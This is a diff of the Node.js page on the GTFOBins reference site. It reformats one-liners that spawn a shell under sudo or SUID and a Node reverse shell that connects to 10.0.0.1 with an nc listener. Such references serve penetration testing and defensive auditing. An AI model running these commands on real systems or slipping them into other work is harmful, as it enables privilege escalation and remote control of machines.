

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -2,21 +2,21 @@
 functions:
   exec-interactive:
     - code: |
-        node -e 'require("child_process").spawn("/bin/sh", [], { stdio: [0, 1, 2]});'
+        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
   sudo-enabled:
     - code: |
-        sudo node -e 'require("child_process").spawn("/bin/sh", [], { stdio: [0, 1, 2]});'
+        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
   suid-enabled:
     - code: |
-        ./node -e 'require("child_process").spawn("/bin/sh", [ "-p" ], { stdio: [0, 1, 2]});'
+        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
   reverse-shell:
     - description: Run `nc -l -p 12345` to receive the shell on the other end.
       code: |
         export RHOST=10.0.0.1
         export RPORT=12345
-        node -e 'sh = require("child_process").spawn("/bin/sh", []);
+        node -e 'sh = require("child_process").spawn("/bin/sh");
         client = new require("net").Socket();
-        client.connect(process.env.RPORT, process.env.RHOST, function(){
+        client.connect(process.env.RPORT, process.env.RHOST, function () {
           client.pipe(sh.stdin);
           sh.stdout.pipe(client);
           sh.stderr.pipe(client);
```
